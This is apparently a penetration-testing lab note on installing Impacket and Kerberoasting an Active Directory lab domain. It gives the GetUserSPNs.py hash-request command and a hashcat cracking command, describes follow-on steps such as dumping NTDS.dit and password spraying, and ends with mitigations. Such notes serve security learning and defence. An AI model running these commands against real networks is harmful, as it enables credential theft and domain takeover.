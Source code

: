 # Impacket Installation

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1.) `cd /opt` navigate to your preferred directory to save tools in

2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)

3.) `cd Impacket-0.9.19` navigate to the impacket directory

4.) `pip install .` - this will install all needed dependencies

# Kerberoasting w/ Impacket -

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.110.108 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

# What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

# Mitigation - Defending the Forest

![https://i.imgur.com/YPuNS2X.png](https://i.imgur.com/YPuNS2X.png)

# Kerberoasting Mitigation -

- Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
- Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

---
